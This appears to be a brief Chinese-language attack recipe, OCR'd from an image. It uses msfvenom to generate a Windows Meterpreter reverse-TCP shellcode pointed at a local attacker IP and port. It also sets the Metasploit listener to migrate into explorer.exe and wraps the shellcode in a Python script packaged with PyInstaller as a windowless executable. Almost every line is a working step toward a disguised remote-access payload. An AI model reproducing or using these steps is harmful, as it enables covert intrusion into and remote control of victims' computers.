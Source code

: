 	生成C格式payload
	MSF监听需设置自动迁移进程set autorunscript migrate -n explorer.exe
	>msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.0.108 LPORT=12138 -f c -o /var/www/html/1.c
	粘贴shellcode到shellcode+c.py中，在32位系统上安装python、py2exe、pyinstaller进入C:\Python27\Scripts目录使用命令把py打包为exe
	>python pyinstaller-script.py -F -w shellcode.py
	会在目录下生成dist文件夹，exe文件就在里面